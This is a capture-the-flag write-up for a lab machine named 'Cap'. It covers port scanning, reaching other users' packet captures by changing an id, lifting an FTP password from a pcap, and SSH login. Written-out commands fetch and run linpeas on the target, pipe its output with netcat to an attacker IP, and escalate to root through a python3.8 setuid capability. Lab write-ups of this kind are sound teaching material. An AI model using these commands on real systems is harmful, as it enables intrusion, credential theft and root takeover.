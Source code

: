 ```yaml
---
title: Cap
date: 2025-03-25
tags: [easy, linux]
---
```


### Task 1

How many TCP ports are open?

```nmap -sS -p- <ip_address>```

- -sS: Stealth Scan, the fastest way to scan ports of the most popular protocol (TCP). 

After scanning, 3 TCP ports are showing to be open.

![alt text](image-c.png)

### Task 2

After running a "Security Snapshot", the browser is redirected to a path of the format /[something]/[id], where [id] represents the id number of the scan. What is the [something]?

Upen the hamburger menu, and click on **Security Snapshot (5 Second PCAP + Analysis)** 

This will redirect you ti a URL with something being **data**. 

### Task 3

Are you able to get to other users' scans?

For this, you can try and change the **id** from **1** to another value. If you try with the value **0** you will see different dashboard, which means you were able to get to other user's scans.

### Task 4 

What is the ID of the PCAP file that contains sensative data?

The page that was found before with the **id** equal to **0** is the one that contains sensative data.

### Task 5

Which application layer protocol in the pcap file can the sensetive data be found in?

When you download and open the file from the dashboard page with **id = 0**, inspect the packets from the Wireshark capture. You will soon find that the sensitive data is in the FTP protocol. Where a request is sent with a password in plain text.

<!--truncate--> 

### Task 6

Try to ssh to the target ip address with the user name and the password for you obtained in the previous step. You will see that this will succesfully work. 

```ssh nathan@<target_ip>```

![alt text](image-c-2.png)

### Task 7

Get the user.txt flag from the ftp server.

```wget ftp://user:password@ftp.mydomain.com/path/file.ext```

![alt text](image-c-1.png)

In your host run ```cat user.txt``` and obtain the user flag.

### Task 8

What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

First clone the reposiroty for using the Linux escalating privelages script. Then make the script executable.

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -O linpeas.sh

chmod +x linpeas.sh

```

Start a Python HTTP server to transfer the script to the target machine.

```python3 -m http.server 8080```

On the target machine, log in with the username **nathan** and his credentials, get the file from your host system.

```
cd /tmp
wget http://<host_ip_address>:8080/linpeas.sh -O linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

and run it saving the output to a text file.
```/tmp/linpeas.sh | tee /tmp/linpeas-output.txt```

You can tranfer this text file to your local machine for further analysis by opening a port to "listen" to a connection and save the incoming data to a new file locally.

```nc -lvnp 4444 > linpeas_output.txt```

From the target machine you can send the file 

```cat linpeas_output.txt | nc 10.10.14.190 4444```

Inspecting the file, under **Files with capabilities** the interesting file is **/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip** which indicates potential privilege escalation allowing changing the user ID to another user (including root)

![alt text](image-c-3.png)

### Task 9 

You can escalate priveleges and switch to root by attempting

 ```/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'```

 then find the flag 

 ```find / -name "root.txt" 2>/dev/null```

 and read the flag by 
```cat /root/root.tx/```




